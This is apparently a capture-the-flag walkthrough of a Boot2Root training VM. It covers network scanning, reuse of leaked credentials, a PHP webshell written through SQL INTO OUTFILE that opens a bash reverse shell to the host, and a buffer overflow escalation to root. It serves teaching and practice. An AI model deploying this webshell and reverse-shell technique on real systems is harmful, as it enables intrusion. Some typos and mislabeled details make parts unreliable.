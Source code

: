 # Boot2Root WriteUp 1
## Step 1
We dont have any ip addres and any user to connect to. We need to find the local ip of the VM:
    
    $> ip addr show
        ...
        vboxnet0 ...
        inet 192.168.56.1/24 ...
        ....
We now have the addres ip of the Virtual Box network interface.

We will use nmap to scan the range of ip and find some machine on it:

    $> nmap 192.168.56.1/24
        ...
        192.168.56.101
        ...

There it is we have our ip address: `192.168.56.101` !
## Step 2
Now that we have the ip address of our VM we can scan it using dirb

    $> dirp https://192.156.56.101
    ...
    https://192.156.56.101/forum
    https://192.156.56.101/phpmyadmin
    https://192.156.56.101/webmail
    ...
Great we have 3 places to analyze !

`/phpmyadmin` and `/webmail` require an username and a password so we start with `/forum`

## Step 3
3 out of 4 articles are useless by the one named `Probleme Login ?` by `lmezard` contains information.
We see in the log that right before `lmezard` connection the log output:

    !q]Ej?5K5cyAJ username incorect

We assume `lmezard` is `stupid` and tried to connect with his password as his username.
Indeed we can login in the forum with this information:

    username: lmezard
    password: !q]Ej?5K5cyAJ

## Step 4

In the forum profile of `lmezard` we get an email.

Lets try to connect through `/webmail` with :
    
    email: laurie@borntosec.net
    password: !q]Ej?5K5cyAJ

Gotem ! We have acces to his mails.

The only relevent mail here is `access db` which contains a password for the `root` user of the database.

    username: root
    password: Fg-'kKXBj87E:aJ$

## Step 5

We use the the previous password to access the database with a root access.

Thanks to this root access, inserting some php file is now easy.
Lets create a `temp` database and run this querry on it:

    SQL>SELECT "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4243 0>&1'"); ?>" into outfile "/var/www/forum/templates_c/reverse.php"

We then run this command on the host machine:

    $> nc -nvlp 4243

Its then needed to load this url on the browser `${VM_IP}/forum/templates_c/reverse.php`.

We now have a shell as user `www-data`


## Step 6

When looking around, we find this file

    $> /home/LOOKATME/password

This file provide all the required information to connect to lmezard in the VM (not through ssh)

    uesrname: lmezard
    password: G!@M6f4Eatau{sF"

## Step 7

We find a README that say that the result password shall be hash with sha256 to access `zaz` user and a zip archive on the `lmezard`'s home.

Inside there is a lot of pcap file with some C code in it and a file number information.
We use a python script called `pcap.py` to concatenate all the file and run the C program.

    $> python pcap.py
    $> gcc out.c
    $> ./a.out
        ...
        password: Iheartpwnage

so the result is :

    username: zaz
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## Step 8

There is a `bomb` that will explore !

We need to reverse engineering the bin `bomb` to defuse it and acces the next users.

- Phase 1: Public speaking is very easy.
 
- Phase 2: 1 2 6 24 120 720

- Phase 3: 1 b 214

- Phase 4: 9 austinpowers

- Phase 5: opekmq

- Phase 6: 4 2 6 3 1 5

There is a secret phase with we use specific answers.

- Phase Secret: 1001

We follow the README instruction and concatenate every answers without space

    username: thor
    password: Publicspeakingisveryeasy.126241207201b2149opekmq426135

## Step 9

There is a `turtle` file with some movement instructions.

We use a python script called `draw.py` to print the movements of the `turtle`.

![](image-1.png)

The word `SLASH` is hidded in this picture.

We MD5 `SLASH` thanks to the hint at the hend of turtle file that say : Can you `digest` the `message` ? MD5 stand for Message Digest 5.

    username: zaz
    password: 646da671ca01bb5d84dbb5fb2238dc8e

## Step 10

There is a bin called `exploit_me` that is own by the `root` user but `zaz` can execute it.
When reverse engineering we see that the program is vulnerable to a buffer overflow:

![](image-2.png)

The size writen inside buf is controled by the user and not by the program.
We use `payload.py` to generate a payload that will change the return addres of strcpy by our shellcode.

Our shellcode will jump to the function `system` with the addres of the string `"/bin/sh"`. This will effectively give us a root shell access.

    $> python payload.py
    $> ./exploit_me $(cat payload)
    $> whoami
        root
    $> id -u
        0

## Step 11

Done !